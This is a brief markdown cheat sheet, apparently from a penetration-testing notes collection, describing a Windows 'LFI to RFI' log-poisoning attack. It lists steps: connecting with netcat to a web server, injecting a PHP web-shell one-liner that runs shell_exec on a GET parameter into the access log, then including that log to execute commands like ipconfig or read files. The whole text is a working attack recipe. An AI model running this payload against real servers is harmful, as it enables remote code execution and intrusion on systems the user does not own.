 # LFI to RFI 
## Windows

### Scenario 1
1. nc -v <ip> 80
2. `<?php echo shell_exec($_GET['cmd']);?>`
3. Find access logs
4. Run command `access.log&cmd=ipconfig` or `access.log&cmd=type C:\file.txt`
